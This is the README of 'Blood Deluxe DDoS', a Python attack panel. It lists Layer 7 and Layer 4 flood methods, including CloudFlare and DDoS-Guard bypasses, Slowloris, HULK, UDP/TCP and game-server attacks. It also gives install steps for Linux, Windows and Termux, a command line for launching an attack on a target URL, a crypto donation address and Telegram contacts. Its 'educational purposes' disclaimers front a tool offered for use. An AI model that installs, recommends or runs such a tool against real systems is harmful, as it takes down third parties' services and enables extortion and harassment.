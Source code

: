 <div align=center>
 
# Blood Deluxe DDoS

 DDoS Attack Panel includes CloudFlare Bypass (UAM, CAPTCHA, BFM, etc..)(It works intermittently. Working on it)<br/><br/>
 Don't attack any websites you don't own it<br/>
 This was created for educational purposes<br/>
 All responsibilities and disadvantages of using this program is for the user.<br/>

!!!!!!The author is not responsible for the actions of users who use this script!!!!!!<br/><br/>
!!!!!!Автор не несёт ответственности за действия пользователей, которые используют этот скрипт.!!!!!!<br/>
 
 To help the author: ltc1qgrj22jysxmvkv2guv0pcn8ea4kvdwmpdcu4w87  | LTC<br/>

## Language</br>

 <img src="https://img.shields.io/badge/Python-FFDD00?style=for-the-badge&logo=python&logoColor=blue"/></br>
</div>

## Menu
![image](https://user-images.githubusercontent.com/96767456/167305588-8049db11-64d1-43e2-908e-ac05724a0e3b.png)


## RULES

```sh
ENG:
1. Don't attack any websites you don't own it!
2. Do not use the script with the intention of hurting someone!
3. The script was created for educational purposes and to test the security of the site in critical situations for SYSTEM ADMINISTRATORS!
I AM NOT RESPONSIBLE FOR YOUR ACTIONS!
=====
RUS:
1. Не атакуйте сайты, которые вам не принадлежат!
2. Не используйте скрипт с намерением навредить кому-либо!
3. Скрипт был создан в образовательных целях и для тестирования сайта на безопасность(бесперебойную работу в критических ситуациях) ДЛЯ СИСТЕМНЫХ АДМИНИСТРАТОРОВ!
Я НЕ НЕСУ ОТВЕСТВЕННОСТИ ЗА ВАШИ ДЕЙСТВИЯ!
```


## Methods

```sh
  [Layer 7]
 - cfb     | Bypass CF attack
 - pxcfb   | Bypass CF attack with proxy
 - cfpro   | Bypass CF UAM, CAPTCHA, BFM, etc,, with request
 - cfsoc   | Bypass CF UAM, CAPTCHA, BFM, etc,, with socket(Temporarily not working)
 - pxsky   | Bypass Google Project Shield, Vshield, DDoS Guard Free, CF NoSec With Proxy
 - sky     | Sky method without proxy
 - get     | Get  Request Attack
 - post    | Post Request Attack
 - head    | Head Request Attack
 - soc     | Socket Attack(Temporarily not working)
 - pxraw   | Proxy Request Attack
 - pxsoc   | Proxy Socket Attack
 -bypass   | Bypass Google Project Shield, Vshield
 -stellar  | HTTPS Sky method without proxies
- hulk     | Hulk DoS tool
- pxraw    | Proxy Request Attack
- pxslow   | Proxy Slowloris attack
 
  [Layer 4]
  -udp     | UDP Attack
  -tcp     | TCP Attack
  -mine    | Minecraft Dos attack 
  -vse     | Send Valve Source Engine Protocol
  -tcpc    | TCP Custom attack(using: tcpcustom. Need ip, port. To use on L7 servers port: 80)

  [Tools]

 - .proxy  | Get VALID proxies into proxy.txt 
 - .proxies| Get ALL proxies into proxy.txt
 - dns     | Classic DNS Lookup
 - geoip   | Geo IP Address Lookup
 - Subnet  | Subnet IP Address Lookup
 Also u can take proxy from https://checkerproxy.net/getAllProxy (push on your data)

```


## Usage on Linux
```sh
You must use Python 3.9 or higher

git clone https://github.com/firstapostle/Blood.git

Install Python3 modules
 - pip3 install -r requirements.txt  or  pip install -r requirements.txt
Install Chrome (or update it lastest version)
 - wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb
 - apt-get install ./google-chrome-stable_current_amd64.deb

OR
 - python3 setup.py

 - python3 BloodLinux.py
```
## Usage on Windows
```sh
Install python - https://www.python.org
Install Git - https://gitforwindows.org (instruction in telegram-channel. contact @AuraNetz or @CyberEducational or @MiraiLove )

git clone https://github.com/firstapostle/Blood
cd Blood
python3 setup.py / py setup.py
Нажимаем 1
python3 blood.py / py blood.py


```
## Usage on Termux
```sh
pkg install x11-repo
pkg install unstable-repo
pkg update
pkg upgrade
если спросит нажимаем y
pkg install python3
pkg install git
pkg install wget
pkg install rust
pip install supertools wheel
pip install shutup
git clone https://github.com/firstapostle/Blood
cd Blood
export CARGO_BUILD_TARGET=aarch64-linux-android && python3 -m pip install cryptography
export CARGO_BUILD_TARGET==aarch64-linux-android && python3 -m pip install -r requirements.txt
python3 -m pip install httpx[http2]
python3 setup.py
Нажимаем 1
python3 blood.py


```
## Example
```sh
Use DDoS Panel   : python3 blood.py
Use command line : python3 blood.py <method> <target> <thread> <time>
      └──────────> python3 blood.py cfb https://example.com 100 30
```

## Contact Developer
```sh
 Telegram: @AuraNetz
```


## My messages

 - Man(@hserv1ce), Blood it's not paste </br>
 - I will remove the CF methods soon. A new BOMB will be added.</br>
l7</br>
![image](https://user-images.githubusercontent.com/96767456/169709099-1c1519e7-a998-4d9d-8cb7-74e5ec35230f.png)</br>
l4</br>
![image](https://user-images.githubusercontent.com/96767456/169709120-5afdba47-6aa1-41aa-82d9-a6e5ecb439d8.png)



